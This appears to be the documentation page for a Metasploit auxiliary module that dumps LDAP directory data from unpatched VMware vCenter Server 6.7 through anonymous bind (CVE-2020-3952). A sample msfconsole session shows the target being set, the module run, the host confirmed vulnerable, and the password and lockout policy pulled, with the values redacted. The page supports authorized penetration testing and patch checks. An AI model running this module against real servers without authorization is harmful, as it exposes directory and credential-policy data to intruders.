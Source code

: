 ## Vulnerable Application

### Description

This module uses an anonymous-bind LDAP connection to dump data from
the vmdir service in VMware vCenter Server version 6.7 prior to the
6.7U3f update.

### Setup

Tested in the wild. No setup notes available at this time.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the target.

## Options

### ConnectTimeout

You may configure the timeout for LDAP connects if necessary. The
default is 10.0 seconds and should be more than sufficient.

## Scenarios

### VMware vCenter Server 6.7

```
msf5 > use auxiliary/gather/vmware_vcenter_vmdir_ldap
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > options

Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   389              yes       The target port


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > run
[*] Running module against [redacted]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:389
[+] [redacted]:389 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002613_default_[redacted]_VMwarevCenterS_939568.txt
[*] Password and lockout policy:
dn: cn=password and lockout policy,dc=vsphere,dc=local
cn: password and lockout policy
enabled: TRUE
ntsecuritydescriptor:: [redacted]
objectclass: top
objectclass: vmwLockoutPolicy
objectclass: vmwPasswordPolicy
objectclass: vmwPolicy
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) >
```
